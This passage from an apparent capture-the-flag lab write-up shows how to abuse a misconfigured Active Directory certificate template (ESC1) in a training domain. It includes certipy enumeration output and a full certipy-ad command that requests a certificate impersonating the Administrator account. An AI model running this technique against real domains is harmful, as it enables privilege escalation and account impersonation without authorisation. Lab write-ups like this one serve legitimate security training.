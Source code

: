 ```console
      Enrollment Permissions
        Enrollment Rights               : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Authenticated Users
      Object Control Permissions
        Owner                           : THM.LOCAL\Administrator
        Write Owner Principals          : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
        Write Dacl Principals           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
        Write Property Principals       : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'THM.LOCAL\\Domain Computers' and 'THM.LOCAL\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
```

To briefly explain why the `ServerAuth` certificate is vulnerable to ESC1, there are three key factors:

* **Enrollment Rights**: `THM.LOCAL\Authenticated Users` can enroll, allowing us to request the certificate.

> Even if `THM.LOCAL\Authenticated Users` didn’t have enrollment rights, we could still exploit the template by creating a computer account and using that to enroll, since `THM.LOCAL\Domain Computers` also has enrollment rights.
{: .prompt-tip }

* **Client Authentication EKU**: The certificate can be used for authentication to Active Directory.

* **EnrolleeSuppliesSubject**: This is the core vulnerability — it allows us to specify the certificate’s subject, enabling us to impersonate any account.

Next, we use `certipy` to request a certificate from the vulnerable **ServerAuth** template while impersonating the **Administrator** user:

```console
$ certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password 'C[REDACTED]!' -ca thm-LABYRINTH-CA -target labyrinth.thm.local -template ServerAuth -upn Administrator@thm.local

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 25
[*] Got certificate with UPN 'Administrator@thm.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

> If you get a timeout error, just try running the command again.
{: .prompt-tip }
